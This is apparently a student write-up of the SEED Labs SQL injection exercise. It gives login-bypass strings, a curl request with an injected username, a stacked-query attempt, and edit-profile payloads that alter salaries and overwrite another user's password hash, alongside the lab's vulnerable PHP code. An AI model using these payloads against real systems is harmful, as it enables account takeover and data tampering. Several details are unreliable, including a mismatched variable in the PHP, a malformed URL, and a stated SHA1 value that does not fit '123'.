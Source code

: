# SQL-injection
### Task 1
Login in MYSQL:
    
    
    mysql -u root -pseedubuntu
    
    mysql> use Users;
    
    mysql> show tables;
    
//Use such a SQL query

		select * from credential where Name='Alice';
    
![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

###Task 2:
Task 2.1
        
        .USERNAME: "Admin' #"
	      
        .PASSWORD: "xyz" (here is password is optional)

//We will result in SQL Query
		    
        SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		    
        FROM credential
		    
        WHERE name='Admin' #' && password='xyz'

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.1.png)

Task 2.2 
//1- Write Code on Terminator in Seed Lab:
    
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
    
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.2.png)

Task 2.3
//Inject Statment to append a row to current database:

    INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
    
//After row inserted, go to browser and input as:
	
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #";
	
    .PASSWORD: "" (blank field);
  
  
![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%202.3.png)

//PHP's mysqli extension, involes mysqli::query API to handle SQL statement, doesn't support for multiple queries with in the same run. Of course, the design of this API attributes to concern of SQL injection.


###Task 3
EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

Task 3.1
  
  --> Login as Username= 'Alice' && Password = xyz, 
	
  --> Then edit the link to browser 
  
  http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	
  --> Update Phone Number as ', Salary=1000000 and save.

Task 3.2

  --> Login as Username= 'Boby' #' and then open edit profile;
 
  --> Update Phone Number: ',Salary=0 and remaining unchanges;
  

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%203.2.png)

//Login as Alice
  Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  Update Phone Number: ', Salary=1 where name='Boby' #
  
Task 3.3
//We're login as Boby but change password of Alice
  
```
  $conn = getDB();
  // Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit(); 
``` 


//Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as:
  c0b656d5e415ca1a8e098a408f913ec229e120b6

Constuct Phone Number:
	', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #

//Save it and changes works accordingly.

![alttext](https://github.com/Waleed-gif/SQL-injection/blob/main/task%203.3.png)
